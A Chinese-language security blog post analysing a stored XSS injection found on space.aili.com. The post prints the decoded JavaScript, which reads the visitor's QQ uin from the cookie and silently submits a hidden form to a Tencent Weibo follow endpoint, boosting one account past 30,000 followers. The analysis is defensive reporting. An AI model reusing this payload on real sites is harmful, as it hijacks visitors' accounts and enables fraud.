 ```yaml
---
layout: post
title: "存储型XSS应用-微博刷粉"
date: 2016-08-03 11:34:13 +0800
comments: true
categories: security
---
```

目前腾讯监控系统发现space.aili.com存在大量恶意的请求，通过xxx.qq.com以期望达到刷微博粉丝的效果

<!--more-->

被插入代码截图如下（每个页面都有，框架被修改）

![](http://jason5.cn/images/xss-weibo1.png)

被插入的恶意代码为：

![](http://jason5.cn/images/xss-weibo3.png)

解码后为:

![](http://jason5.cn/images/xss-weibo4.png)

格式化

```javascript
(function() {
    window.u = "chunxi_lu";
    window.mm = document.createElement("div");
    window.mm.innerHTML = "<iframe style='display:none' name='mj'></iframe><form method='POST' id='mi' action='http://radio.t.qq.com/mini/follow.php' target='mj'><input type='hidden' value='" + window.u + "' name='u'/><input type='hidden' value='" + ((document.cookie.match(/(?:^|\s)uin=o(\d+)/) || ["", ""])[1] | 0) + "' name='uin'/></form>";
    document.body.appendChild(window.mm);
    document.getElementById("mi").submit();
})()
```

innerHTML被修改为

```javascript
<iframe style='display:none' name='mj'></iframe>
<form method='POST' id='mi' action='http://radio.t.qq.com/mini/follow.php' target='mj'>
  <input type='hidden' value='" + window.u + "' name='u' />
  <input type='hidden' value='" + ((document.cookie.match(/(?:^|\s)uin=o(\d+)/) || ["", ""])[1] | 0) + "' name='uin' />
</form>
```

粉丝数刷到3w+

![](http://jason5.cn/images/xss-weibo2.png)
